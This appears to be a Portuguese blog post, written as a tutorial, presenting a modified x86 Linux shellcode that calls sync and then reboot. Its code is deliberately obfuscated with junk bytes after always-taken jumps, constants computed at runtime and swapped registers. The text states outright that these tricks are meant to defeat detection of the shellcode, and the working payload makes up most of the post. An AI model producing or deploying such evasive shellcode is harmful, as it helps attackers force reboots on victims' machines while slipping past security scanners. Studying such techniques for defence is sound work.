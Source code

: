 Desta vez modificaremos um shellcode que chama a syscall sync (para evitar perda
de arquivos) e a reboot.

Segue a versão modificada.

{% highlight asm %}
# void sync(void);
# sync()

sub edi, edi
jz $+3
db 0xe8
add edi, 36
xchg eax, edi
jmp $+3
db 0xe1
int 0x80

# int reboot(int magic, int magic2, int cmd, void *arg);
# reboot(0xfee1dead, 0x28121969, 0x1234567, not_used)

jmp $+3
db 0xff
push 0x29
pop ecx
jmp $+3
db 0x01
mov ebx, 0x1234567
mov edx, 0xffc29bca
xor edx, ebx

jnz $+3
db 0xe7
xchg ebx, edx
lea eax, [ecx+0x2f]
lea ecx, [ecx+0x28121940]
jmp $+4
db 0xe8, 0x01
int 0x80
{% endhighlight %} [//]: # (*)

O código faz o mesmo que o original, com a diferença de não usar a syscall exit.
Pensem comigo: se o sistema já estará em processo de reinicialização, para que
se preocupar em fechar o programa? ;)

Também utilizei a técnica da SUB reg, reg, para zerar o registrador, seguida de
uma JZ. Como a subtração sempre setará o ZF, sempre haverá o jump. Essa é mais
uma técnica que embaralha a detecção do shellcode. Podem perceber que também não
fiz uso dos valores imediatos corretos; eles são calculados durante a execução.
Outra técnica empregada foi a de permutar os registradores, confundindo cada vez
mais a identificação do objetivo do código.
